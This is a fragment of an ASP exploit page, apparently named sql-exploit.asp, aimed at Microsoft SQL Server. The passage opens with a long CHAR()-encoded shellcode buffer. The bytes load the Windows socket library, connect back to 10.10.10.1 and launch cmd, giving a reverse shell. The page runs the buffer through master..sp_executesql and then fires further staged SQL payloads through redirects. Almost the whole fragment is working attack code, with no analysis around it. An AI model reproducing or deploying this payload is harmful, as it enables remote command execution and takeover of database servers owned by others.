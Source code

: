 +CHAR(0x50)+CHAR(0xff)+CHAR(0xd6)+CHAR(0x66)+CHAR(0x53)+CHAR(0x66)+CHAR(0x68)+CHAR(0x33)
+CHAR(0x32)+CHAR(0x68)+CHAR(0x77)+CHAR(0x73)+CHAR(0x32)+CHAR(0x5f)+CHAR(0x54)+CHAR(0xff)
+CHAR(0xd0)+CHAR(0x68)+CHAR(0xcb)+CHAR(0xed)+CHAR(0xfc)+CHAR(0x3b)+CHAR(0x50)+CHAR(0xff)
+CHAR(0xd6)+CHAR(0x5f)+CHAR(0x89)+CHAR(0xe5)+CHAR(0x66)+CHAR(0x81)+CHAR(0xed)+CHAR(0x08)
+CHAR(0x02)+CHAR(0x55)+CHAR(0x6a)+CHAR(0x02)+CHAR(0xff)+CHAR(0xd0)+CHAR(0x68)+CHAR(0xd9)
+CHAR(0x09)+CHAR(0xf5)+CHAR(0xad)+CHAR(0x57)+CHAR(0xff)+CHAR(0xd6)+CHAR(0x53)+CHAR(0x53)
+CHAR(0x53)+CHAR(0x53)+CHAR(0x43)+CHAR(0x53)+CHAR(0x43)+CHAR(0x53)+CHAR(0xff)+CHAR(0xd0)
+CHAR(0x68)+CHAR(0x0a)+CHAR(0x0a)+CHAR(0x0a)+CHAR(0x01)+CHAR(0x66)+CHAR(0x68)+CHAR(0x11)
+CHAR(0x5d)+CHAR(0x66)+CHAR(0x53)+CHAR(0x89)+CHAR(0xe1)+CHAR(0x95)+CHAR(0x68)+CHAR(0xec)
+CHAR(0xf9)+CHAR(0xaa)+CHAR(0x60)+CHAR(0x57)+CHAR(0xff)+CHAR(0xd6)+CHAR(0x6a)+CHAR(0x10)
+CHAR(0x51)+CHAR(0x55)+CHAR(0xff)+CHAR(0xd0)+CHAR(0x66)+CHAR(0x6a)+CHAR(0x64)+CHAR(0x66)
+CHAR(0x68)+CHAR(0x63)+CHAR(0x6d)+CHAR(0x6a)+CHAR(0x50)+CHAR(0x59)+CHAR(0x29)+CHAR(0xcc)
+CHAR(0x89)+CHAR(0xe7)+CHAR(0x6a)+CHAR(0x44)+CHAR(0x89)+CHAR(0xe2)+CHAR(0x31)+CHAR(0xc0)
+CHAR(0xf3)+CHAR(0xaa)+CHAR(0x95)+CHAR(0x89)+CHAR(0xfd)+CHAR(0xfe)+CHAR(0x42)+CHAR(0x2d)
+CHAR(0xfe)+CHAR(0x42)+CHAR(0x2c)+CHAR(0x8d)+CHAR(0x7a)+CHAR(0x38)+CHAR(0xab)+CHAR(0xab)
+CHAR(0xab)+CHAR(0x68)+CHAR(0x72)+CHAR(0xfe)+CHAR(0xb3)+CHAR(0x16)+CHAR(0xff)+CHAR(0x75)
+CHAR(0x28)+CHAR(0xff)+CHAR(0xd6)+CHAR(0x5b)+CHAR(0x57)+CHAR(0x52)+CHAR(0x51)+CHAR(0x51)
+CHAR(0x51)+CHAR(0x6a)+CHAR(0x01)+CHAR(0x51)+CHAR(0x51)+CHAR(0x55)+CHAR(0x51)+CHAR(0xff)
+CHAR(0xd0)+CHAR(0x68)+CHAR(0xad)+CHAR(0xd9)+CHAR(0x05)+CHAR(0xce)+CHAR(0x53)+CHAR(0xff)
+CHAR(0xd6)+CHAR(0x6a)+CHAR(0xff)+CHAR(0xff)+CHAR(0x37)+CHAR(0xff)+CHAR(0xd0)+CHAR(0x68)
+CHAR(0xe7)+CHAR(0x79)+CHAR(0xc6)+CHAR(0x79)+CHAR(0xff)+CHAR(0x75)+CHAR(0x04)+CHAR(0xff)
+CHAR(0xd6)+CHAR(0xff)+CHAR(0x77)+CHAR(0xfc)+CHAR(0xff)+CHAR(0xd0)+CHAR(0x68)+CHAR(0xef)
+CHAR(0xce)+CHAR(0xe0)+CHAR(0x60)+CHAR(0x53)+CHAR(0xff)+CHAR(0xd6)		"&_
"     CONTINUE							"&_
"  END								"&_
"  SET @buf = @buf + @val					"&_
"END								"&_
"SET @buf = @buf + ''',''33'',''34'',''35'',''36'',''37'',''38'',''39'',''40'',''41'''   "&_
"EXEC master..sp_executesql @buf"							


Set oConnection = Server.CreateObject("ADODB.Connection")
oConnection.Open "Provider=SQLOLEDB; Data Source=; Initial Catalog=; User ID=" & UserName & "; Password=" & Password
Set rs = Server.CreateObject("ADODB.Recordset")

phase = Request.Querystring("p")

if phase then
	if phase = 1 then
		rs.open SQL3, oConnection
		rs.close
		oConnection.Close
		Set oConnection = Nothing
		Response.Redirect("sql-exploit.asp?p=2")
	elseif phase = 2 then
		rs.open SQL4, oConnection
		rs.close
		oConnection.Close
		Set oConnection = Nothing
		Response.Redirect("sql-exploit.asp?p=3")
	end if
Else
	rs.open SQL, oConnection
	rs.close
	oConnection.Close
	Set oConnection = Nothing
	
